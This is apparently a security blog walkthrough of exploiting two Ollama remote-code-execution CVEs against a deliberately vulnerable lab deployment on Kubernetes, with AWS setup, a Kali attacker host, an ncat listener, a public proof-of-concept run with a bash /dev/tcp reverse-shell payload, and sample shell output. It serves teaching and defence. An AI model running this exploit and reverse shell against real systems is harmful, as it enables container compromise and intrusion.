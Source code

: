 ```yaml
---
title: Exploiting RCE Vulnerabilities in Ollama on Kubernetes
author: Petr Ruzicka
date: 2025-07-10
description: Demonstrating the exploitation of CVE-2024-37032 and CVE-2024-45436 vulnerabilities in a containerized Ollama instance running on Kubernetes.
categories: [security, kubernetes, genai]
tags: [ollama, kubernetes, security, cve, rce, attack, demonstration]
image: https://raw.githubusercontent.com/ollama/ollama/9da9e8fb7254df1148f9619bec781e52dc954678/macapp/src/ollama.svg
---
```


[Ollama](https://ollama.com/) has become a popular tool for running large
language models locally. However, like any software, it can have
vulnerabilities. This post provides a technical deep-dive into two critical
vulnerabilities: [CVE-2024-37032](https://nvd.nist.gov/vuln/detail/cve-2024-37032)
and [CVE-2024-45436](https://nvd.nist.gov/vuln/detail/CVE-2024-45436). These
vulnerabilities allow for remote code execution (RCE) in older versions of
Ollama.

We will walk through a step-by-step demonstration of how an attacker could
exploit these vulnerabilities in an Ollama instance running in a Kubernetes
cluster. Understanding these attack vectors is crucial for building robust
security postures.

<!-- prettier-ignore-start -->
> This demonstration is for educational purposes only.
{: .prompt-info }
<!-- prettier-ignore-end -->

References:

- [CVE-2024-37032 Detail](https://nvd.nist.gov/vuln/detail/cve-2024-37032)
- [CVE-2024-37032 & CVE-2024-45436 Ollama RCE](https://github.com/pankass/CVE-2024-37032_CVE-2024-45436)

## Attack Scenario

The attack involves a few key steps:

1. **Reconnaissance:** An attacker identifies a publicly exposed, vulnerable
   Ollama instance.
2. **Exploitation:** The attacker uses a specially crafted request to exploit the
   vulnerabilities, gaining the ability to execute arbitrary commands on the
   container.
3. **Post-Exploitation:** The attacker establishes a reverse shell to gain
   interactive access to the compromised container, from which they can attempt
   to escalate privileges or move laterally within the Kubernetes cluster.

## Prerequisites

Before we begin, ensure you have the following tools installed and configured:

- [AWS CLI](https://aws.amazon.com/cli/) with appropriate permissions to create
  resources.
- [rain](https://github.com/aws-cloudformation/rain): A delightful CLI for AWS
  CloudFormation.
- [helm](https://helm.sh/docs/intro/install/): The package manager for
  Kubernetes.

## Environment Setup

```bash
# AWS Region
export AWS_REGION="${AWS_REGION:-us-east-1}"
# Hostname / FQDN definitions
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
# Base Domain: k8s.mylabs.dev
export BASE_DOMAIN="${CLUSTER_FQDN#*.}"
# Cluster Name: k01
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${KUBECONFIG:-${TMP_DIR}/${CLUSTER_FQDN}/kubeconfig-${CLUSTER_NAME}.conf}"
# Tags used to tag the AWS resources
export TAGS="${TAGS:-Owner=${MY_EMAIL},Environment=dev,Cluster=${CLUSTER_FQDN}}"
mkdir -pv "${TMP_DIR}/${CLUSTER_FQDN}"
```

## AWS EC2 instance with Kali Linux

Launch an AWS EC2 instance with [Kali Linux](https://www.kali.org/) using a
[CloudFormation template](https://github.com/aws-samples/amazon-ec2-nice-dcv-samples/blob/main/cfn/KaliLinux-NICE-DCV.yaml).

```bash
## Download the CloudFormation templates
# renovate: currentValue=master
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/aws-codebuild-samples/00284b828a360aa89ac635a44d84c5a748af03d3/ci_tools/vpc_cloudformation_template.yml
# renovate:
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/amazon-ec2-nice-dcv-samples/2a0cddbdf9bf15dce3faaaf33dc499e52db7423c/cfn/KaliLinux-NICE-DCV.yaml

## Create a new AWS EC2 Key Pair to be used for the EC2 instances
aws ec2 create-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}" --key-type ed25519 --query "KeyMaterial" --output text > "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"
chmod 600 "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"

rain deploy --yes "${TMP_DIR}/vpc_cloudformation_template.yml" "${SOLUTION_KALI}-VPC" \
  --params "EnvironmentName=${SOLUTION_KALI}" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"

AWS_CLOUDFORMATION_DETAILS=$(aws cloudformation describe-stacks --stack-name "${SOLUTION_KALI}-VPC" --query "Stacks[0].Outputs[? OutputKey==`PublicSubnet1` || OutputKey==`VPC`].{OutputKey:OutputKey,OutputValue:OutputValue}")
AWS_VPC_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"VPC\") .OutputValue")
AWS_SUBNET_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"PublicSubnet1\") .OutputValue")

rain deploy --yes --node-style original "${TMP_DIR}/KaliLinux-NICE-DCV.yaml" "${SOLUTION_KALI}" \
  --params "ec2KeyPair=${AWS_EC2_KEY_PAIR_NAME},vpcID=${AWS_VPC_ID},subnetID=${AWS_SUBNET_ID},ec2TerminationProtection=No,allowWebServerPorts=HTTP-and-HTTPS" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"
```

Configure SSH access to the Kali Linux instance:

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" 'curl -Ls https://github.com/ruzickap.keys >> ~/.ssh/authorized_keys'
```

## Deploying Vulnerable Ollama Instance

Install the `ollama` [Helm chart](https://github.com/otwld/ollama-helm/tree/ollama-1.23.0)
and modify its [default values](https://github.com/otwld/ollama-helm/blob/ollama-1.23.0/values.yaml)
to deploy a vulnerable version (`0.1.33`):

```bash
OLLAMA_HELM_CHART_VERSION="1.23.0"

helm repo add otwld https://helm.otwld.com/
tee "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" << EOF
image:
  tag: 0.1.33
ingress:
  enabled: true
  hosts:
    - host: ollama-vulnerable.${CLUSTER_FQDN}
      paths:
        - path: /
          pathType: Prefix
  tls:
    - hosts:
        - ollama-vulnerable.${CLUSTER_FQDN}
nodeSelector:
  kubernetes.io/arch: amd64
EOF
helm upgrade --install --version "${OLLAMA_HELM_CHART_VERSION}" --namespace ollama --create-namespace --wait --values "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" ollama otwld/ollama
```

## Exploit Execution

Now, let's execute the exploit from the Kali Linux instance.

### Step 1: Set up a listener on the Kali instance

First, we'll set up a netcat listener on the Kali machine to receive the
reverse shell. Open a new terminal and SSH into your Kali instance.

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" "kali@${AWS_EC2_KALI_PUBLIC_IP}"
```

Inside the Kali machine, run the following command to start a listener on port
80:

```bash
sudo ncat -lnvp 80
```

This terminal will now wait for an incoming connection.

### Step 2: Run the exploit

Open a *second* terminal and SSH into the Kali instance again. In this new
shell, we will download the exploit code and run it.

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
# SSH into the Kali box
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" "kali@${AWS_EC2_KALI_PUBLIC_IP}"

# Inside the Kali machine:
# Install dependencies
sudo apt update && sudo apt install -qqy golang-go

# Clone the exploit repository
git clone https://github.com/pankass/CVE-2024-37032_CVE-2024-45436.git
cd CVE-2024-37032_CVE-2024-45436

# Run the exploit
# The target is our vulnerable Ollama service.
# The -exec payload will create a reverse shell back to our Kali instance.
go run main.go -target "https://ollama-vulnerable.${CLUSTER_FQDN}" -exec "bash -i >& /dev/tcp/${AWS_EC2_KALI_PUBLIC_IP}/80 0>&1"
```

### Step 3: Access the reverse shell

If the exploit is successful, you will see a connection established in your
first terminal window (the one running `ncat`). You now have a shell inside the
compromised Ollama container!

```console
# In your ncat listener terminal, you should see something like this:
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 1.2.3.4:12345.
whoami
ollama
pwd
/
ls -la
...
```

## Conclusion

This walkthrough demonstrated that CVE-2024-37032 and CVE-2024-45436 are
critical vulnerabilities that can lead to a full container compromise with
relative ease. While we used a specific public PoC, the underlying
vulnerability could be exploited in various ways.

The key takeaway is the importance of a defense-in-depth strategy. Relying on a
single security control is not enough. A combination of timely patching,
network segmentation, least-privilege principles, and continuous monitoring is
essential to protect your Kubernetes workloads from evolving threats.

## Cleanup

Delete the Kali Linux EC2 instance, EC2 Key Pair, and related CloudFormation
stack:

```sh
export AWS_REGION="${AWS_REGION:-us-east-1}"
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${KUBECONFIG:-${TMP_DIR}/${CLUSTER_FQDN}/kubeconfig-${CLUSTER_NAME}.conf}"

aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}"

if eksctl get cluster --name="${CLUSTER_NAME}"; then
  eksctl delete cluster --name="${CLUSTER_NAME}" --force
fi

aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}-VPC"
aws ec2 delete-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}"

for FILE in ${TMP_DIR}/{vpc_cloudformation_template.yml,KaliLinux-NICE-DCV.yaml,${AWS_EC2_KEY_PAIR_NAME}.pem,helm_values-ollama.yml,kubeconfig-${CLUSTER_NAME}.conf}; do
  if [[ -f "${FILE}" ]]; then
    rm -v "${FILE}"
  else
    echo "*** File not found: ${FILE}"
  fi
done
```

Enjoy ... 😉
